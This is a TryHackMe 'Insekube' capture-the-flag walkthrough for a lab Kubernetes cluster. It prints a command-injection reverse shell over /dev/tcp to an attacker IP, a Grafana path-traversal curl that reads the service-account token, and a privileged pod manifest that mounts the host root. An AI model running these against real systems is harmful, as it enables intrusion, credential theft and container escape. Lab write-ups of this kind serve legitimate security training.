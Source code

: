  
# <a href="https://tryhackme.com/room/insekube"> TryHackMe Insekube </a>
### Exploiting Kubernetes by leveraging a Grafana LFI vulnerability

### Task 1

```
nmap -p- -Pn -sC -sT -A --reason -o nmap.scan [Target IP]
```
This will give us answer rot the first question.


### Task 2

On website we can perform a command injection attack by typing various command like ;whoami ;id ;ls
Author tells us that flag is in Envrometal variable so lets  type ;printenv
![image](https://user-images.githubusercontent.com/58551072/155545434-44c7d8b8-2811-4078-916e-8660a5ce6b6e.png)

We have to establish reverse shell with target machine in order to complete further task
There is no netcat or python avaliable on machine for us to use. 
We have to use Command injection attack again
```
127.0.0.1 && bash &>/dev/tcp/[Attacker IP]/[PORT] <&1
```

### Task 3

No answer needed

### Task 4

We have access to the machine. All we need to do is follow instructions. 
Flag is there, you can analyse it with online tools

### Task 5

Running env you will see there is a Grafana service running in the cluster.
We need to find what version of Grafana is used and search for vulnerabilities
Still in console that is connected to the target machine
```curl http://grafana:3000/login/```
Text is long but answer is easy to find ;)
 

### Task 6

I had trouble with running exploit but when googling around I have found solution
```
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```
Now we have token
To get service account name we can use option "get serviceaccount" and token that we have found
To get next two answers all we need to do is fllow instruction. Flag 3 is in same place as flag 1

### Task 7

First we need to prepare .yaml file
```
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```


 
To get file into TARGET machine lets start ftp server on our machine
then simply curl http://ATTACKER IP:PORT/file.yaml
to get last flag use 

```find / -type f -name root.txt```
   
   
   

